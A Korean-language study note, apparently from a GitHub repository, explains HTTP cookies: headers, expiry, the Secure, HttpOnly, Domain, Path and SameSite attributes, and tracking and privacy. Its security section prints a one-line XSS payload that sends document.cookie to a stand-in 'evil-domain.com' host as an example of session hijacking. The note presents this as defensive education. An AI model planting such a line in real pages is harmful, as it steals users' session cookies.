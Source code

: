 # HTTP 쿠키

## HTTP 쿠키란?

HTTP쿠키(웹 쿠키, 브라우저 쿠키)는 서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 조각이다. 브라우저는 그 데이터 조각들을 저장해 놓았다가, 동일한 서버에 재 요청 시 저장된 데이터를 함께 전송한다. 쿠키는 두 요청이 동일한 브라우저에서 들어왔는지 아닌지를 판단할 때 주로 사용한다. 상태가 없는(stateless) HTTP 프로토콜에서 상태 정보를 기억시켜준다. 

## 쿠키의 목적

- 세션 관리(Session management)
  - 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization)
  - 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking)
  - 사용자 행동을 기록하고 분석하는 용도

## 클라이언트 측의 데이터 저장

데이터를 클라이언트 측에 저장할 때 쿠키를 사용하던 과거와 달리 지금은 modern storage APIs를 사용할 것이 권장된다. 쿠키는 모든 요청마다 함께 전송되기 때문에 성능이 저하될 수 있기 때문이다.

## 저장된 쿠키 보기

- 개발자 도구 > Storage Inspector -> 스토리지 트리의 쿠키 스토리지

## 쿠키 만들기

### Set-Cookie 응답헤더와 Cookie 요청헤더

- 서버: 클라이언트야 쿠키 저장해!

```
Set-Cookie: 쿠키이름=쿠키값
Set-Cookie: 쿠키이름=쿠키값
```

- 브라우저: 서버로 이전에 저장했던 모든 쿠키들 회신

```
Cookie: 쿠키이름1=쿠키값1; 쿠키이름2=쿠키값2
```

### Session 쿠키와 Permanent 쿠키

`Expires`나 `Max-Age`를 명시하지 않을 경우 클라이언트가 종료되면 삭제되는 Session 쿠키가 된다.  명시하면 클라이언트가 닫힐 때 만료되지 않는 Permanent 쿠키가 된다.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; // Permanent 쿠키
```

### Secure 쿠키와 HttpOnly 쿠키

- 쿠키에 Secure 옵션을 줄 경우 Https 프로토콜 상에서 암호화된 요청일 경우만 전송된다.  
- HttpOnly 옵션을 줄 경우, 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 Cross-site 스크립팅 공격을 누그러뜨리는 데 도움을 줄 수 있다. 



### 쿠키의 스코프: Domain과 Path 속성

- `Domain`과 `Path` 디렉티브가 어떤 URL을 쿠키가 보내야 하는지 쿠키의 스코프를 정의한다. 특정 도메인 혹은 경로 제한 설정이 가능하다.
- `Domain`: 서브도메인 포함
  - 예를 들어, `Domain=naver.com`가 설정되면 쿠키들이 `dict.naver.com`, `news.naver.com`과 같은 서브 도메인 상에도 포함된다. 
- `Path`: 서브 디렉토리 포함
  - 예를 들어, `Path=/docs`가 설정되면 쿠키들이 `/docs`, `docs/Web/`, `docs/HTTP`와 같은 서브 디렉토리 상에도 포함된다.



### SameSite 쿠키

SameSite 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않게 함으로써`cross-site`요청 위조 공격으로부터 쿠키를 보호한다. 



### Document.cookie를 사용한 자바스크립트 접근

- `Document.cookie`를 사용해 쿠키를 만들어낼 수 있다. `HttpOnly`플래그가 설저어되지 않은 경우 기본 쿠키들은 자바스크립트로부터 잘 접근될 수 있다

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy+cookie=choco; tasty_cookie=strawberry";
```



## 보안

### 세션 하이재킹과 XSS

쿠키는 인증된 사용자의 인증된 세션을 식별하기 위해 사용되는데, 이 쿠키를 가로채면 인증된 사용자의 세션 하이재킹으로 이어질 수 있다. 소셜 공학을 사용하거나 애플리케이션 내의 XSS 취약점을 이용하여 쿠키를 가로챌 수 있다.

```javascript
(new Image()).src = "https://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

쿠키에 `HttpOnly` 속성을 주면 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 공격을 누그러뜨리는 데 도움을 줄 수 있다.

### Cross-site 요청 위조 (CSRF)



## 트래킹과 프라이버시

### 서드파티 쿠키

설정한 서버에만 전송되는 퍼스트파티 쿠키와 달리, 서드파티 컴포넌트(웹을 통한 광고와 트래킹)를 통해 전송되는 쿠키를 말한다.

### Do-Not Track

- `DNT` 헤더: 트래킹 혹은 cross-site 사용자 트래킹 모두를 비활성화하는 신호로 사용될 수 있다.

### EU 쿠키 디렉티브

- EU 전역의 쿠키에 대한 요구사항.
- 누군가 어떤 정보든지 저장하거나 검색하기 전에, 사용자가 사전 동의를 해야만 한다. 웹사이트가 사용자에게 쿠키 사용에 대한 내용을 알려준 뒤에 배너를 추가할 수 있다.

### 좀비 쿠키와 Evercookies

- 좀비 쿠키: 삭제 이후에 다시 생성되는 쿠키
- Evercookies
- 의도적으로 영원히 제거하는 것이 어려운 쿠키
- 쿠키 존재 여부와 관계 없이 자신을 다시 만들어내기 위해 웹 스토리지 API, Flash 로컬 공유 객체 등을 사용하고 있다.



